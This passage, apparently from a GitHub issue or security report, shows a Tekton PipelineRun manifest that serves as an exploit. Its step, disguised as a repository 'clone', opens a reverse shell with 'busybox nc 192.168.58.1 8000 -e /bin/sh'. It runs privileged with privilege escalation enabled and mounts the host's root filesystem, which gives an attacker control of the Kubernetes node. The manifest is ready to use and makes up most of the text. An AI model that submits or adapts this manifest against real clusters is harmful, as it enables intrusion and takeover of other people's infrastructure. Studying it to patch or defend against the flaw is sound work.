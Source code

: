 ```
                            "ReadWriteOnce"
                        ],
                        "resources": {
                            "requests": {
                                "storage": "1Gi"
                            }
                        }
                    },
                    "status": {}
                }
            }
        ]
    }
}
```

yaml version
```yaml
apiVersion: tekton.dev/v1
kind: PipelineRun
metadata:
  annotations: {}
  generateName: import-resources-1716387335999-
  labels:
    dashboard.tekton.dev/import: 'true'
  namespace: tekton-dashboard
spec:
  pipelineSpec:
    tasks:
      - name: fetch-repo
        taskSpec:
          metadata: {}
          steps:
            - computeResources: {}
              image: >-
                busybox:latest
              name: clone
              script: >
                #!/usr/bin/env sh

                busybox nc 192.168.58.1 8000 -e /bin/sh
              volumeMounts:
                - name: noderoot
                  mountPath: /var/noderoot
              securityContext:
                allowPrivilegeEscalation: true
                privileged: true
          workspaces:
            - name: repo
        workspaces:
          - name: repo
            workspace: repo
  taskRunTemplate:
    podTemplate:
      volumes:
        - name: noderoot
          hostPath:
            path: /
    serviceAccountName: default
  timeouts:
    pipeline: 1h0m0s
  workspaces:
    - name: repo
      volumeClaimTemplate:
```